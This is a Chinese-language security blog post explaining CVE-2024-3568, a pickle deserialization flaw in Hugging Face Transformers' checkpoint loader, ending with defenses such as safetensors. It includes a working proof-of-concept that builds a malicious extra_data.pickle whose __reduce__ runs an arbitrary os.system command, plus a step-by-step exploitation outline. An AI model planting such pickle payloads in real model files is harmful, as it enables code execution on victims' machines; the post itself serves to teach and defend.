 ```yaml
---
layout:     post             
title:      大模型反序列化导致的RCE漏洞
date:       2024-12-07            
author:     sule01u                  
head-img:   img/post-bg-keybord.jpg 
catalog: true                      
tags:      
   - SRC
---
```


# 大模型反序列化导致的RCE漏洞

> 话说最近字节实习生通过编写、篡改代码等形式恶意攻击团队研究项目模型训练任务的事闹的沸沸扬扬，那气氛都到这了，我们来聊聊大模型的漏洞吧

## 引言

这可以从`CVE-2024-3568`开始聊聊， `CVE-2024-3568`是`Huggingface`的`Transformers`库中存在的一个反序列化漏洞，影响版本为`4.38.0`及之前的版本。该漏洞源于`TFPreTrainedModel`类的`load_repo_checkpoint()`函数在加载检查点时，使用了`Python`的`pickle`模块反序列化不受信任的数据，导致攻击者可以通过构造恶意的序列化有效载荷，实现任意代码执行。 

**所以呢**

展开人话就是：攻击者可以创建一个包含恶意extra_data.pickle文件的检查点目录。当受害者在模型训练过程中加载该检查点时，pickle.load()函数会反序列化extra_data.pickle文件，触发其中的恶意代码，从而在受害者的机器上执行任意指令。 

**我不信，你演示一下**

OK, 来梳理一遍漏洞出发流程 ⬇️

## CVE-2024-3568 漏洞触发流程

**功能背景：模型检查点加载**

- 在机器学习中，检查点`Checkpoint`用于保存模型训练的中间状态，以便随时恢复训练或进行推理。
- `Transformers` 库的 `TFPreTrainedModel` 类提供了 `load_repo_checkpoint()` 方法，用于从一个目录中加载检查点数据。
- 该方法使用 `Python` 的 `pickle` 模块来反序列化检查点的附加数据文件 `extra_data.pickle`。

**核心问题：直接反序列化用户提供的文件**

- `pickle` 是 `Python` 的一个模块，用于序列化和反序列化 `Python` 对象, `pickle` 的反序列化过程会执行序列化对象中的任意代码。
- 在 `load_repo_checkpoint()` 中，直接使用了 `pickle.load()` 方法来加载用户提供的 extra_data.pickle 文件。
- 如果攻击者能够控制检查点目录的内容，就可以将恶意代码嵌入到 extra_data.pickle 文件中。

**示例代码如下**

- 模拟受害者加载恶意的checkpoint

```python
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 加载一个正常的模型
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的仓库的路径，注意路径要正确
model.load_repo_checkpoint('rce-checkpoint')
```

![image-20241020130557014](https://blog-1318821573.cos.ap-beijing.myqcloud.com/2024-12-08-141025.png)

- 我们继续跟进load_repo_checkpoint，读取了`extra_data.pickle`文件并反序列化

```python
def load_repo_checkpoint(self, repo_path_or_name):
    if getattr(self, "optimizer", None) is None:
        raise RuntimeError(
                "Checkpoint loading failed as no optimizer is attached to the model. "
                "This is most likely caused by the model not being compiled."
            )
    if os.path.isdir(repo_path_or_name):
        local_dir = repo_path_or_name
    else:
        repo_files = list_repo_files(repo_path_or_name)
        for file in ("checkpoint/weights.h5", "checkpoint/extra_data.pickle"):
            if file not in repo_files:
                raise FileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
        repo = Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
        local_dir = repo.local_dir

    # 确保仓库中确实存在检查点
    checkpoint_dir = os.path.join(local_dir, "checkpoint")
    weights_file = os.path.join(checkpoint_dir, "weights.h5")
    if not os.path.isfile(weights_file):
        raise FileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
    extra_data_file = os.path.join(checkpoint_dir, "extra_data.pickle")
    if not os.path.isfile(extra_data_file):
        raise FileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")

    # -----------重点在这里：加载模型的权重和优化器状态----------------
    self.load_weights(weights_file)
    with open(extra_data_file, "rb") as f:
        extra_data = pickle.load(f)   # ！！！pickle.load()
    self.optimizer.set_weights(extra_data["optimizer_state"])

    return {"epoch": extra_data["epoch"]}
```

现在真相大白了，那我们下一个问题是：**`extra_data.pickle`文件里面是啥？**

让我们看看`extra_data.pickle`文件是怎么生成的 ⬇️

```python
def generate_extra_data_pickle(filepath, command):
    class CommandExecute:
        def __reduce__(self):
            return os.system, (command,)

    poc = CommandExecute()
    with open(filepath, 'wb') as fp:
        pickle.dump(poc, fp)
```

在 `pickle.load(f)` 反序列化时，`__reduce__` 会被调用，`return os.system, (command,)` 会导致指定的命令 `command` 被执行。（反弹shell拿权限了 - _ -

**所以顺下来，漏洞利用过程就是：**

1. 攻击者使用上面的 `generate_extra_data_pickle`  函数生成包含恶意命令的`extra_data.pickle` 文件。
2. 将该文件放入目标仓库或本地文件路径。
3. 受害者运行` load_repo_checkpoint` 并加载恶意文件。
4. `pickle.load(f)` 执行反序列化，触发 `__reduce__`，执行其中的恶意命令。



## 扩展总结

以 transformers 库为例，已经发现了多起相关的安全漏洞：

- CVE-2024-3568：该漏洞影响 transformers 库版本低于 4.38.0，主要利用 TFAutoModel 的反序列化过程触发恶意代码执行。
- CVE-2023-7018：影响版本低于 4.36.0 的 transformers 库，tokenizer 解析存在类似的反序列化漏洞。

- CVE-2023-6730：涉及 RagRetriever.from_pretrained 方法，影响版本同样是低于 4.36.0。

这些漏洞的存在，意味着**如果攻击者能够控制模型文件内容 并且 模型文件被受害者使用了**，便可通过反序列化行为，在模型加载的瞬间就可以触发恶意代码执行。

不过大模型时代，自己从头训模型对大多数人来说是不现实的，重点可能需要放在加载预训练权重的时候怎么避免**权重文件被植入恶意代码的风险上**



## 如何防御：**safetensors** 

`safetensors` 是 `Hugging Face` 推出的一个专门存储模型权重的文件格式，主要目标是**安全性**和**高效性**。

**为什么安全：**

- **只存储张量数据**：`safetensors` 仅存储模型的张量（weights），不包含任何其他 Python 对象。

- **无需解释器解析**：文件的解析完全由 Rust 或其他安全语言实现，而非依赖 Python 的动态解释器（如 pickle）。

- **防止任意代码执行**：由于文件格式不支持代码对象，攻击者无法在文件中注入恶意代码。

**其他措施：**

- **加载前验证文件完整性**（如哈希校验或签名验证）。
- **避免加载未验证来源的模型文件**。
- **限制加载模型的运行环境**（隔离环境）